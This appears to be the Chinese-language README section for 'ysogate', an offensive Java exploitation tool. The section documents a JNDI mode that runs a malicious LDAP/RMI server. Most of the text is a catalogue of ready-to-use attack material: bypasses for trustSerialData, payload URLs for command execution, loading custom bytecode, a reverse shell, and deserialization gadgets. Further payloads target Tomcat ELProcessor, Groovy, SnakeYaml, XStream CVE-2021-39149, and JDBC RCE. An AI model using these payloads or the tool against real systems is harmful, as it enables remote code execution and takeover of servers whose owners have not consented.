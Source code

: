 ## JNDI Mode

可以使用`-m jndi`来使用jndi模式，这个模式会在本地运行恶意的jndi服务器

```
[root]#~  JNDI Mode Options:
 -h,--help              Show help message
 -hp,--httpPort <arg>   HTTP port
 -i,--ip <arg>          IP address for JNDI server
 -ldap2rmi              change ldap to rmi to bypass trustSerialData
 -lp,--ldapPort <arg>   LDAP port
 -m,--mode <arg>        Operation mode: 'payload' or 'jndi' or 'gen'
 -onlyRef               use Reference only to bypass trustSerialData
 -rp,--rmiPort <arg>    RMI port
```

例如

```
java -jar ysogate-[version]-all.jar -m jndi -i 0.0.0.0 -onlyRef
```

### trustSerialData 绕过

在JDK20+版本中`com.sun.jndi.ldap.object.trustSerialData`属性默认为`false`，无法在com.sun.jndi.ldap.Obj#decodeObject中反序列化，绕过方式主要有：

**ldap2rmi**

通过设置javaRemoteLocation来使用com.sun.jndi.ldap.Obj#decodeRmiObject还原Factory对象，从ldap转换成rmi进行绕过

可以在启动时添加`-ldap2rmi`来进行可能的绕过，例如

```
java -jar ysogate-[version]-all.jar -m jndi -i 0.0.0.0 -ldap2rmi
```

**onlyRef**

利用本地Factory进行攻击时，可以通过设置`objectClass`为`javaNamingReference`来避免进行反序列化，利用decodeReference来还原Factory对象，不适用于BeanFactory绕过，因为BeanFactory需要ResourceRef类型。

可以在启动时添加`-onlyRef`来进行可能的绕过，例如

```
java -jar ysogate-[version]-all.jar -m jndi -i 0.0.0.0 -onlyRef
```

### codebase 注入

ldap和rmi通用，通过 JNDI Reference 指定codebase，远程加载ObjectFactory，需要trustURLCodebase=true，

```
# 参数支持urlsafe base64
ldap://127.0.0.1:1389/Basic/xxxxxxx/Y2FsYw==

# 执行命令
ldap://127.0.0.1:1389/Basic/Command/calc

# Dnslog
ldap://127.0.0.1:1389/Basic/DNSLog/xxx.dnslog.cn

# 加载自定义字节码
ldap://127.0.0.1:1389/Basic/Custom/data:yv66vxxxxxxxxxxxxx

# 从/tmp/a.class加载自定义字节码
ldap://127.0.0.1:1389/Basic/Custom/file:L3RtcC9hLmNsYXNz

# 加载内存马(todo)
ldap://127.0.0.1:1389/Basic/Custom/mem:Tomcat

# 原生反弹 Shell (支持 Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444
```

### 基于 BeanFactory

BeanFactory这个类在tomcat8+或者SpringBoot 1.2.x+存在

且要求tomcat版本小于9.0.63，或小于8.5.79

**Tomcat ELProcessor**

利用javax.el.ELProcessor#eval

```
# 使用方式同Basic

# 使用el调用ScriptEngineManager来加载字节码(nashorn在JDK15后被移除)
ldap://127.0.0.1:1389/ELProcessor/Command/calc
ldap://127.0.0.1:1389/ELProcessor/Custom/data:yv66vxxxxxxxxxxxxx

# jdk9以上可以用el调用JShell来加载字节码
ldap://127.0.0.1:1389/ELProcessor17/Command/calc
```

**GroovyShell & GroovyClassLoader**

利用groovy.lang.GroovyShell#evaluate和groovy.lang.GroovyClassLoader#parseClass(java.lang.String)

```**SnakeYaml**
# 使用方式同Basic
ldap://127.0.0.1:1389/GroovyClassLoader/Command/calc
ldap://127.0.0.1:1389/GroovyShell/Command/calc
```

**SnakeYaml**

利用org.yaml.snakeyaml.Yaml#load(java.lang.String)

```
# 使用方式同Basic
ldap://127.0.0.1:1389/SnakeYaml/Command/calc
```

**XStream**

利用com.thoughtworks.xstream.XStream#fromXML(java.net.URL)

可以打CVE-2021-39149，要求XStream < 1.4.18

```
# 暂时只写了执行命令
ldap://127.0.0.1:1389/XStream/calc
```

**MLet**

通过 MLet 探测 classpath 中存在的类

```
ldap://127.0.0.1:1389/MLet/com.example.TestClass
```

如果 `com.example.TestClass` 这个类存在, 则 HTTP 服务器会接收到一个 `/com/example/TestClass_exists.class` 请求

**NativeLibLoader**

利用com.sun.glass.utils.NativeLibLoader#loadLibrary加载目标服务器上的动态链接库，适用于能够写文件的场景

写入dll/so/dylib文件，例如/tmp/evil.so，使用时把路径去掉后缀， 即/tmp/evil

```
ldap://127.0.0.1:1389/NativeLibLoader/L3RtcC9ldmls
```
**JSVGCanvas**
高版本tomcat下通过GenericNamingResourcesFactory来调用setter，触发 org.apache.batik.swing.JSVGCanvas#setURI，需要TomcatJDBC，batik-swing 1.15以下，适用于高版本TomcatBypass
```
ldap://127.0.0.1:1389/JSVGCanvas/Command/calc
```
### JDBC RCE

支持以下数据库连接池

- Commons DBCP
- Tomcat DBCP
- Tomcat JDBC
- Alibaba Druid
- HikariCP
- C3P0

支持以下数据库

- Mysql
- PostgreSQL
- H2
- IBM DB2
- Derby
- Teradata

### 反序列化

通过反序列化来进行RCE，暂不支持rmi协议

```
# 执行命令
ldap://127.0.0.1:1389/Deserialize/{gadget}/Command/{cmd}

# 加载自定义字节码（部分需要继承AbstractTranslet）
ldap://127.0.0.1:1389/Deserialize/{gadget}/Custom/data:yv66vxxxxxxxxxxxxx

# 从/tmp/a.class加载自定义字节码（部分需要继承AbstractTranslet）
ldap://127.0.0.1:1389/Deserialize/{gadget}/Custom/file:L3RtcC9hLmNsYXNz

# 加载内存马(todo)
ldap://127.0.0.1:1389/Deserialize/{gadget}/Custom/mem:Tomcat

# example
ldap://127.0.0.1:1389/Deserialize/Jackson2/Command/calc
```
